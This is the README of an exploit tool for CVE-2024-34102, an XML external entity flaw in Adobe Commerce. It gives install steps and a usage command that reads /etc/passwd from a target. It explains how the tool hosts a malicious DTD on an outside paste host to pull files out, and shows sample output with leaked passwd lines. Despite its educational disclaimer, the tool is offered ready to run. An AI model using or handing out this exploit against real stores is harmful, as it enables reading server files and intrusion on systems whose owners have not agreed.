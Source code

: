 # 🚨 CVE-2024-34102 Exploit Script 🚨

## Description

This script exploits a Server-Side Request Forgery (SSRF) vulnerability in Adobe Commerce versions 2.4.7, 2.4.6-p5, 2.4.5-p7, 2.4.4-p8, and earlier. The vulnerability allows for arbitrary code execution by sending a crafted XML document that references external entities. Exploitation of this issue does not require user interaction.

## Installation

1. 📥 **Clone the repository:**
    ```sh
    git clone https://github.com/Chocapikk/CVE-2024-34102.git
    cd CVE-2024-34102
    ```

2. 📦 **Install the required packages:**
    ```sh
    pip install -r requirements.txt
    ```

## Usage

### Basic Command

```sh
python exploit.py -u <target_url> -f <file_to_read>
```

### Example

```sh
python exploit.py -u http://example.com -f /etc/passwd
```

### Options

- `-u`, `--url` (required): Specify the target URL or domain.
- `-f`, `--file` (optional): Specify the file to read from the server. Default is `/etc/passwd`.

## How It Works

1. **Initialization**:
   - Input: Target URL and file to read (default: `/etc/passwd`)
   - Disable security warnings

2. **Generate Callback URL**:
   - Create a unique DTD file containing malicious XML entities.
   - Host the DTD file on fars.ee.
   - Print the created callback URL and the file to be read.

3. **Obtain Instance ID**:
   - Obtain an instance ID from the SSRF API.

4. **Send Malicious Request**:
   - Construct a request with the malicious DTD URL.
   - Send the request to the target URL.

5. **Check Exploitation Success**:
   - Check instance logs from the SSRF API.
   - Decode and display the exfiltrated data if the exploitation is successful.

6. **Cleanup**:
   - Clear instance logs.
   - Delete the instance.

7. **Output Result and Finish**:
   - Print whether the target URL is vulnerable or not.

## Example Output

```sh
[+] Created Callback URL: https://fars.ee/abcd1234.dtd
[+] File to be read: /etc/passwd
[+] Decoded Exploited Data: 
root:x:0:0:root:/root:/bin/bash
...
[+] Vulnerable URL: http://example.com
```

## Notes

- ⚠️ **Disclaimer**: This script is for educational purposes only. Unauthorized use of this script against a target without permission is illegal.
- 💡 **Tip**: Always ensure you have permission to test a target system for vulnerabilities.

## Credits

- ❤️ Credits to @th3gokul & Sanjaith3hacker for the original code base.
